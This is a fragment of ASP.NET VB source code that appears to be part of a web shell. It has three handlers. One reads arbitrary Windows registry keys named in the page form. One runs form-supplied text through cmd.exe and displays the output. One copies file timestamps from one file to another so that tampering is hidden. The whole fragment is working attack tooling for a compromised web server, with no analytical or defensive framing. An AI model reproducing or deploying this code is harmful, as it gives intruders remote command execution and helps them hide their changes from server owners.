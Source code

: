 End Function

Sub RegistryRead(Src As Object, E As EventArgs)
	Try
            Dim regkey As String = txtRegKey.Text
            Dim subkey As String = regkey.Substring(regkey.IndexOf("\") + 1, regkey.Length - regkey.IndexOf("\") - 1)
            Dim rk As RegistryKey = Nothing
            Dim buffer As Object
            Dim regstr As String = ""
            If regkey.Substring(0, regkey.IndexOf("\")) = "HKEY_LOCAL_MACHINE" Then
                  rk = Registry.LocalMachine.OpenSubKey(subkey)
            End If
            If regkey.Substring(0, regkey.IndexOf("\")) = "HKEY_CLASSES_ROOT" Then
                  rk = Registry.ClassesRoot.OpenSubKey(subkey)
            End If
            If regkey.Substring(0, regkey.IndexOf("\")) = "HKEY_CURRENT_USER" Then
                  rk = Registry.CurrentUser.OpenSubKey(subkey)
            End If
            If regkey.Substring(0, regkey.IndexOf("\")) = "HKEY_USERS" Then
                  rk = Registry.Users.OpenSubKey(subkey)
            End If
            If regkey.Substring(0, regkey.IndexOf("\")) = "HKEY_CURRENT_CONFIG" Then
                  rk = Registry.CurrentConfig.OpenSubKey(subkey)
            End If
            buffer = rk.GetValue(txtRegValue.Text, "NULL")
		dim tmpbyte As Byte = 0
                  lblresultReg.Text = "<br>Result : " + buffer.ToString()
      Catch ex As Exception
            Response.write(ex.Message)
      End Try
End Sub

' Begin List Web Site Home Directory Properties


' End List Web Site Home Directory Properties
Sub RunCMD(Src As Object, E As EventArgs)
	Try
	Dim kProcess As New Process()
	Dim kProcessStartInfo As New ProcessStartInfo("cmd.exe")
	kProcessStartInfo.UseShellExecute = False
	kProcessStartInfo.RedirectStandardOutput = true
	kProcess.StartInfo = kProcessStartInfo
	kProcessStartInfo.Arguments="/c " & Cmd.text
	kProcess.Start()
	Dim myStreamReader As StreamReader = kProcess.StandardOutput
	Dim myString As String = myStreamReader.Readtoend()
	kProcess.Close()
	result.text=Cmd.text & vbcrlf & "<pre>" & mystring & "</pre>"
	Cmd.text=""
	Catch
	result.text="This function has disabled!"
	End Try
End Sub
Sub CloneTime(Src As Object, E As EventArgs)
	existdir(time1.Text)
	existdir(time2.Text)
	Dim thisfile As FileInfo =New FileInfo(time1.Text)
	Dim thatfile As FileInfo =New FileInfo(time2.Text)
	thisfile.LastWriteTime = thatfile.LastWriteTime
	thisfile.LastAccessTime = thatfile.LastAccessTime
	thisfile.CreationTime = thatfile.CreationTime
	response.Write("<font color=""red"">Clone Time Success!</font>")
End Sub